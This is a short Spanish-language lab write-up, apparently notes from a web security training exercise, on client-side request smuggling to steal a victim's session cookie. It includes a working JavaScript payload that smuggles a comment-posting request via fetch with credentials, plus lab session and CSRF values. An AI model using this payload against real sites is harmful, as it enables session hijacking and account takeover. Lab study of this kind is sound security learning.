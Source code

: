 En esta última parte, empaquetamos todo el ataque dentro de un payload JavaScript alojado en el servidor de explotación. El script desencadena una petición maliciosa con una petición fragmentada dentro del cuerpo, seguida de una solicitud controlada a /capture-me.

Una vez entregado a la víctima, su navegador ejecuta el código y realiza las peticiones necesarias que provocan la filtración de su cookie de sesión en el área pública del sitio. Extraemos esta información y usamos la cookie robada para acceder a su cuenta y resolver el laboratorio con éxito.

Solucion

el script bueno es este 
(<script>
  var smuggledRequest = [
    "POST /en/post/comment HTTP/1.1",
    "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
    "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
    "Content-Type: application/x-www-form-urlencoded",
    "Content-Length: 900",
    "",
    "csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&comment=smuggled"
  ].join("\r\n");

  fetch("https://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
    method: "POST",
    body: smuggledRequest,
    mode: "no-cors",
    credentials: "include"
  });
</script>)
![[Pasted image 20250812221322.png]]
Aqui lo vemos reflejado
![[Pasted image 20250812221356.png]]
copiamos y pegamos en almacenamiento
![[Pasted image 20250812221507.png]]
![[Pasted image 20250812221531.png]]
